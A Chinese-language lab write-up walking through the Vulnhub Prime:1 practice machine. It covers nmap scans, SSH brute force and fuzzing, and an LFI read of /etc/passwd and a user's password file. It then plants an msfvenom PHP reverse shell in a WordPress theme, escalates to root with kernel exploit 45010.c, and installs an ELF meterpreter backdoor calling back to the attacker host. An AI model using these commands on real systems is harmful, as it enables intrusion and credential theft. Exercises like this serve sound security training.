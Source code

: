 ```yaml
---
title: 靶机渗透实战基础-Vulnhub-Prime_1
date: 2024-01-19 18:46:46
tags: 渗透测试
mathjax: true
---
```


# 靶机渗透实战基础-Vulnhub-Prime:1

## 主机发现&端口扫描

攻击主机IP：192.168.2.130，C段扫描：

```bash
nmap -sP 192.168.2.1/24
```

发现目标主机IP地址为：192.168.2.198。

进行进攻性扫描：

```bash
nmap -A 192.168.2.198
```

发现两个端口开放：

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8d:c5:20:23:ab:10:ca:de:e2:fb:e5:cd:4d:2d:4d:72 (RSA)
|   256 94:9c:f8:6f:5c:f1:4c:11:95:7f:0a:2c:34:76:50:0b (ECDSA)
|_  256 4b:f6:f1:25:b6:13:26:d4:fc:9e:b0:72:9f:f4:69:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: HacknPentest
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 漏洞发现

搜索Apache 2.4.18漏洞：

```bash
searchsploit Apache 2.4
```

并没有。

有OpenSSH，爆弱口令：

```bash
hydra -C /usr/share/wordlists/legion/ssh-betterdefaultpasslist.txt 192.168.2.198 ssh
```

然而并没有，回去看80端口，发现只有一张图骗，怀疑存在隐写，用wget下载：

```bash
wget http://192.168.2.198:80/hacknpentest.png
strings hacknpentest.png > strs.txt
bat strs.txt
```

没啥东西。

## 目录爆破

```bash
dirb http://192.168.2.198
```

除了inde.php，还有dev路由，访问：

```bash
curl http://192.168.2.198/dev
```

价值不大。

还有WordPress路由，访问，发现页面提示有用户名victor。

接下来爆文件：

```bash
dirb http://192.168.2.198 -X .php,.txt
```

有secret.txt和image.php，访问secret.txt，提示有locations.txt和需要模糊测试。

## 模糊测试

对image.php的传参进行模糊测试：

```bash
wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt http://192.168.2.198/image.php?FUZZ
```

只要chars相同就不用管，尝试过滤掉147：

```bash
wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --hh 147 http://192.168.2.198/image.php?FUZZ
```

没东西，再试试index.php：

```bash
wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --hh 136 http://192.168.2.198/index.php?FUZZ
```

有个好东西：参数file。访问：http://192.168.2.198/index.php?file=asdf结果报错。想到之前提示location.txt这玩意儿，尝试LFI文件包含漏洞：http://192.168.2.198/index.php?file=location.txt。

提示拿到某参数“secrettier360”？？？

尝试发现不是WordPress的密码，于是尝试读取passwd文件：

```bash
curl http://192.168.2.198/image.php?secrettier360=/etc/passwd
```

找到显眼信息：/home/saket/password.txt，继续读取该文件：

```bash
curl http://192.168.2.198/image.php?secrettier360=/home/saket/password.txt
```

找到了不知道啥东西：follow_the_ippsec，猜测为WordPress后台密码。

之前提示有用户victor，也可以尝试爆破用户名：

```bash
wpscan --url http://192.168.2.198/wordpress --enumerate u
```

尝试登录发现是对的，尝试找一个可写的文件，最终找到主题2019的secret.php可写，尝试弹shell。

## 内核提权

用msfvenom弹shell：

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.2.130 LPORT=7777 -s shell.php
```

读取shell.php并上传，用msfconsole连接：

```
use exploit/mutli/handler
set payload php/meterpreter_reverse_tcp
set lhost 192.168.2.130
set lport 7777
exploit
```

一个很重要的知识点：secret.php所在路径为/wordpress/wp-content/themes/twentynineteen/secret.php，访问后即连接上meterpreter。

尝试getuid和sysinfo，发现内核版本为4.10.0-28，查看有什么提权操作：

```bash
searchsploit Ubuntu 4.10.0
```

找到45010.c提权操作：

```bash
cp /usr/share/exploitdb/exploits/linux/local/45010.c .
```

并利用meterpreter进行上传后，打开shell：

```
upload /home/monoceros406/Desktop/CTF-Workbench/45010.c /tmp/45010.c
shell
```

进入shell后，利用本地gcc编译。如果利用攻击主机gcc编译，会发现靶机的libc版本不是一般低...

在shell中：

```bash
cd /tmp
gcc 45010.c -o 45010
./45010
whoami
```

完结散花！

## 瞎搞

拿root后改密码，改成abcdefg：

```bash
passwd root
```

在虚拟机里登进去，图片中发现一张截图，victor的密码是：victorcandoanything。

但是这个meterpreter也没啥好玩儿的，php/linux型各种操作都受限制...

造毒：

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.2.130 lport=4443 -f elf > backdoor
```

然后上传：

```
upload /home/monoceros406/Desktop/CTF-Workbench/backdoor /tmp
```

目标主机运行：

```bash
cd /tmp
./45010 #先提权
chmod 777 ./backdoor
./backdoor &
```

尽快启动新的msfconsole，进行连接：

```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost 192.168.2.130
set lport 4443
exploit
```

发现还是无法使用screenshot或keyscan等...
